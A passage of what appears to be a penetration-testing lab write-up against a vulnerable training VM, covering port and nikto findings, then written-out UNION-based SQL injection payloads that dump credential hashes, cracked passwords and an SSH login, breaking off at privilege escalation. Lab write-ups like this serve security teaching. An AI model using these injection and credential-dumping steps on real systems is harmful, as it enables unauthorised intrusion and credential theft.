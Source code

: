 * 22/TCP: SSH (OpenSSH 4.7p1).
* 80/TCP: HTTP (Apache 2.2.8 with PHP 5.2.4).

### OS Detection

Linux 2.6.X (Ubuntu).

## 3. Web Application Analysis

### Tool: nikto

Command: `nikto -h 192.168.1.13`

### Key Findings

* Outdated PHP (5.2.4) and Apache (2.2.8).
* phpMyAdmin directory exposed (/phpmyadmin/).
* Missing security headers (X-Frame-Options, X-XSS-Protection).
* SQL injection vulnerability in the gallery page's id parameter.

## 4. Manual SQL Injection Exploitation

### Vulnerability

SQL error in the gallery page's id parameter.

### Steps

1. Determine Column Count:
`-1 union select 1,2,3,4,5,6` → 6 columns (columns 2 and 3 vulnerable).
2. Extract Database Version:
`-1 union select 1,@@version,3,4,5,6` → MySQL 5.0.51a.
3. List Tables:
`-1 union select 1,2,group_concat(table_name),4,5,6 from information_schema.tables where table_schema=database()`-- → Identified dev_accounts table.
4. Extract Credentials:
`-1 union select 1,group_concat(username,0x3a,password),3,4,5,6 FROM dev_accounts`-- → Retrieved two MD5 hashes.
5. Crack Hashes:
Used hashcat with rockyou.txt wordlist:
	* starwars (user: loneferret).
	* Mast3r (user: root).

## 5. SSH Access & Privilege Escalation

### SSH Login

ssh loneferret@192.168.1.13 with password starwars.

### Privilege Escalation
